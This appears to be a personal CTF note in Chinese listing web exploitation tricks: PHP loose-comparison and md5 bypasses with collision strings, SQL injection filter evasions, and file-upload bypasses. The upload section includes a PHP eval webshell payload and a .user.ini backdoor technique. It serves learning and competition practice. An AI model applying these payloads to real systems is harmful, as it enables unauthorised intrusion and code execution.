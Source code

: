 # Web

- php中弱类型比较`==`是先将两边转换为同种类型再进行比较

转换规则如下

<img src="image/image-20221019171309331.png" alt="image-20221019171309331" style="zoom:80%;" />

```php
<?php
if(123 == "123ffff"){
    echo "相等";
}

//右边的123ffff会转换成123，输出相等
```



- php中strcmp函数，如果是用来比较字符串，如果传入了其他不能比较的数据（数组）则会返回NULL，如果后台采用了弱类型比较`==`，由于 PHP 比较中的一些固有弱点，NULL == 0 将返回 true，在一些情况下可以绕过，所以某些情况下可以把参数变成数组（id=1变成id[]=1）来进行绕过

- sql注入可以通过`()`绕过空格过滤，括号是来包含子查询的，任何可以计算出结果的语句都可以用括号围起来，而括号的两端，可以没有多余的空格

- file_get_content()获取文件内容，文件不存在时，可以通过伪协议”创建“文件

- php中md5强碰撞`md5($a)===md5($b)`使用全等号，可以使用三种方法绕过

  **数组**

  ?a[]=111&b[]=222，md5函数读取数组的时候无法解析，最终只会读入一个常量Array，所以md5相同

  **科学技术法**

  0e开头的数字会被解析成科学计数法0eXXX开头都会被解析成0，找到两个开头是0e的即可绕过

  **真实碰撞**

  如果传入的数据都变成了string，那就只能用真实的值，md5具有弱碰撞性，可以找到两个md5完全相等的数据

```sh
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2

b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

- php文件上传过滤了`<?`标签时可以用`<script language="php">@eval($_POST[cmd]);</script>`进行绕过
- php文件上传黑名单限制死了后缀时，可以上传`.user.ini`后门进行绕过，其中`auto_prepend_file`相当于`require()`函数，能够执行函数里面的php文件
- php7.1以上对属性类型不敏感，序列化时private属性会引入特殊字符`\00`，可能会被过滤或者截断，可以直接使用public进行序列化来绕过
- sql注入如果等号被过滤可以用like代替
- sql注入时，遇到知道其中一个**参数**，但是没有报错回显，且不知道位置时

```sql
select * from user where username = '$name'
```

可以在注入的第一个数据处写不存在的**参数**

例如，已知admin，正常回显如下，有一条结果

![image-20221020123112869](image/image-20221020123112869.png)

此时php后台检查参数user是否为admin，是则输出true，否则输出false，但没有报错回显，此时我们就不知道参数的位置

我们可以查询一个不存在的数据（如果是存在的数据，则会返回两条结果，可能会干扰显示，我们就无法判断）

![image-20221020123544876](image/image-20221020123544876.png)

然后sql注入union查询，挨个把admin在不同的位置尝试，直到输出true

![image-20221020123655116](image/image-20221020123655116.png)

示例：

https://blog.csdn.net/weixin_61333161/article/details/124535965

![image-20221020123843044](image/image-20221020123843044.png)

![image-20221020123923404](image/image-20221020123923404.png)

- sql注入过滤了关键字select无法绕过时，可以尝试堆叠注入，使用show列出数据库和表
- sql注入过滤了关键字select无法查询内容时可以用ALTER更新表名，从而利用源码中自带的select查询内容
- sql注入过滤了关键字select无法查询内容时可以用`HANDLER`语法进行绕过，handler是mysql特有的，步骤：

```sql
handler 表名 open;			#先打开表
handler 表名 read first;	#读取第一行
handler 表名 close;			#关闭表
```

- sql注入遇到布尔盲注，可以用三目运算符或者异或符号进行判断

```sql
if(1=1,1,2)		#true则返回1，false则返回2
0^1				#返回1，0异或任何数得本身
```

再通过substr进行逐位比较

- 模板注入，所有使用模板的程序都有可能出现这种漏洞可以在任何有输出点的地方测试

> 当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的的MVC的模式，用户的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。

<img src="image/884dd41bb098801bbd396e7c85c0b8c6bd88dbae.png@942w_1076h_progressive.webp" alt="img" style="zoom:80%;" />

<img src="image/eaad5599c07366839c6eb45faa5be4e299dfd5a6.png@942w_563h_progressive.webp" alt="img" style="zoom:80%;" />

- escapeshellarg()和escapeshellcmd()函数

escapeshellarg可以将字符串增加一个单引号，并且转码任何存在的单引号（防止闭合绕过）

escapeshellcmd会对可能绕过命令执行函数的字符进行转义

<img src="image/image-20221026151803456.png" alt="image-20221026151803456" style="zoom:80%;" />

- web遇到页面比较简单的，可以抓包试试，看看有没有传递特殊的参数
- web页面没有特殊的提示，可以用dirmap扫描
- git泄露可以用githack还原工程